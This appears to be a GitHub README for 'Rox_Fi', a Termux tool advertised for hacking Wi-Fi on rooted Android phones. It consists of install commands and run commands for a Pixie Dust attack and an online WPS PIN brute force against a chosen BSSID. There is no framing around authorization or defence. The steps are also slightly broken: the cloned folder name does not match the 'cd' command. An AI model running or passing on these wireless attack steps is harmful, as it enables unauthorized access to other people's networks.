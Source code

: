 ## Rox_Fi

### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://k.top4top.io/p_2825ur3eq0.jpg

### Installation :

```bash

$ apt update && apt upgrade

$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/Gtajisan/farhan-wifihack

$ cd farhan

$ chmod +x farhan.py

$ sudo python farhan.py --help

```

#### Example : `sudo python farhan.py -i wlan0 -K`

#### Note: 

**First turn off your Wifi.**

- Show avaliable networks and start Pixie Dust attack on a specified network.

- `sudo python farhan.py -i wlan0 -K`

- - Start Pixie Dust attack on a specified BSSID:

`sudo python farhan.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`

- Launch online WPS bruteforce with the specified first half of the PIN:

- `sudo python farhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`

### Troubleshooting

**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

